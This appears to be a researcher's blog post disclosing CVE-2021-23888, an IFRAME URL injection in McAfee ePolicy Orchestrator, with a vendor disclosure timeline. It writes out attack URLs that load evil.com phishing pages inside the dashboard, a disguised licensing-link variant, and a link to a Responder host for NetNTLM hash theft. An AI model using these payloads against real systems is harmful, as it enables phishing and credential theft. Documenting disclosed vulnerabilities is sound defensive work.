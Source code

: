 ```yaml
---
title: "CVE-2021-23888 - McAfee ePolicy Orchestrator HTML Injection"
layout: "post"
---
```


**Product:** McAfee ePolicy Orchestrator (ePO) prior to 5.10 Update 10

**Type:** OWASP Top Ten 2013 Category A10 - Unvalidated Redirects and Forwards

**Summary:** Unvalidated client-side URL redirect vulnerability in McAfee ePolicy Orchestrator (ePO) prior to 5.10 Update 10 could cause an authenticated ePO user to load an untrusted site in an ePO IFRAME which could steal information from the authenticated user. This would require the attacker to convince the ePO user to click a malicious link whilst logged into the ePO server through the same browser they used to click the malicious link.


# Introduction
On Purple Team internal assessments, I'm commonly tasked to test critical company infrastructure and software. On this occasion our team was tasked to test the McAfee ePolicy Orchestrator deployment used by our company.

During the assessment, I noticed the heavy use of postMessage and Websockets, but one particular thing stood out - the URL construction on the address bar.

This is what one can typically see on the browser address bar, when accessing a regular IP/URL of the McAfee ePolicy Orchestrator Dashboard:

`https://epo-host:8443/core/orionNavigationLogin.do#/core/orionDefaultPage.do`

The `/core/orionDefaultPage.do` fragment is actually just an HTTP endpoint and like many others, it will be rendered in an IFRAME right below the "Top Dashboard Control bar", which itself will also be rendered in another IFRAME above.

After noticing this, the first thing I tried was to inject a simple Cross-Site Scripting payload and see what happened:

`https://epo-host:8443/core/orionNavigationLogin.do#//javascript:alert(1))`

However the web application correctly filtered the payload and many other payloads I fired at it.

I decided to inspect the Javascript code that was performing the filtering (unfortunately I completely forgot to take more screenshots to show here), and noticed that I could just do something like this:

`https://epo-host:8443/core/orionNavigationLogin.do#//google.com`

The Dashboard would now show the Google Search Page on the IFRAME below the "Top Dashboard Control bar" IFRAME. With this simple double slash payload one could "inject" any website on the Dashboard, and given the way the Dashboard would be presented to the user this would make for a very convincing Phishing attack and could also be used to perform an NetNTLM Hash Leak attack.


# Phishing Scenario:

Given the regular IP/URL of the McAfee ePolicy Orchestrator:
`https://epo-host:8443/core/orionNavigationLogin.do#/core/orionDefaultPage.do`

The attacker only needs to swap the endpoint after the hash (#) to a malicious domain/URL and send the URL to a user with access to the Dashboard:
`https://epo-host:8443/core/orionNavigationLogin.do#//evil.com/phish-page.php`

<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-1.PNG">
</p>
<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-2.PNG">
</p>
<p align="center">
  <img src="/assets/posts/2021-03-27-CVE-2021-23888-McAfee-ePolicy-Orchestrator-HTML-Injection/mcafee-epo-html-injection-3.PNG">
</p>

The malicious domain must obviously not have the X-Frame-Options set to "DENY" or "SAMEORIGIN" in order for the domain to be loaded on an IFRAME, but since the attacker controls its own website, that is not really an issue.

For a more practical Phishing attack, a more convincing URL can constructed, leveraging the Dashboard Licensing Endpoint and its GET parameter `returnURL`.

This provides a better back story for the Phishing email (eg: licensing problems):

`https://epo-host:8443/SoftwareMgmt/enterLicenseKey.do?returnURL=%2f..%2fcore%2forionNavigationLogin.do%23%2f%2fevil.com%2fphish-page.php`

This link above will drop the targeted user on the Dashboard "License Key" Settings and after any action (Save or Cancel) performed by the user, he will be redirected to the Phishing page:

`https://epo-host:8443/core/orionNavigationLogin.do#//evil.com/phish-page.php`


# Leak of an ePO user NetNTLM Hash Scenario (forgot to take screenshots again):

Point to the host running Responder or Inveigh and send the URL to a user with access to the Dashboard:
`https://epo-host:8443/core/orionNavigationLogin.do#//host-running-responder-or-inveigh`


# Timeline
- 2020-09-07: Reported the issue McAfee's HackerOne Vulnerability Program.
- 2020-09-08: Report triaged.
- 2020-09-21: Status feedback request sent.
- 2020-09-21: Feedback received - Issue is being internally evaluated by McAfee.
- 2020-10-05: Feedback received - Issue confirmed and planning to address it by McAfee are on the way.
- 2020-10-06: Status feedback request sent.
- 2020-12-02: Status feedback request sent.
- 2020-12-02: Feedback received - Patch release time line on Q1 2021 and a CVE assignment will be made
- 2021-03-08: Status feedback request sent.
- 2021-03-08: Feedback received - McAfee team is still working on the issue internally
- 2021-03-08: Feedback received - Patch release later in March 2021
- 2021-03-09: Status feedback request sent.
- 2021-03-12: Feedback received - Information requested for the CVE and patch information release
- 2021-03-12: Information sent to McAfee
- 2021-03-12: Request permission to create a blog post on this issue
- 2021-03-15: Feedback received - McAfee would like to contribute and review the post before publishing
- 2021-03-15: Information sent to McAfee on the details of the blog post 
- 2021-03-15: Feedback received - CVE-2021-23888 reserved and bulletin number SB10352 being drafted
- 2021-03-26: Feedback received - Patch and Patch Bulletin released - https://kc.mcafee.com/corporate/index?page=content&id=SB10352
- 2021-03-27: Publication of this post.
